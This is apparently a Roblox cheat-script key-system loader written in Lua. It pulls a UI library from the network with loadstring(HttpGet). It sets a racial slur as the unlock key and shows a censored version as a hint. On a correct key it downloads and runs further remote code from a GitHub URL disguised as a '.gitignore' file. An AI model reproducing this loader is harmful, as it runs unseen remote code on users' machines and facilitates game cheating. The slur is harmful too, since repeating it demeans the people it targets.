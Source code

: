 local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()
local Window = OrionLib:MakeWindow({Name = "Key System", HidePremium = false, SaveConfig = true, IntroEnabled = false})
local Tab = Window:MakeTab({
	Name = "KeySystem",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})
local Section = Tab:AddSection({
	Name = "EnterKey"
})
getgenv().Key = 'Nigger'

Tab:AddTextbox({
	Name = "Key: N_gger",
	Default = "",
	TextDisappear = true,
	Callback = function(Value)
		if Value == Key then
            OrionLib:Destroy()
            loadstring(game:HttpGet("https://raw.githubusercontent.com/DomTechGaming/mynew/main/.gitignore"))()
        end
	end	  
})
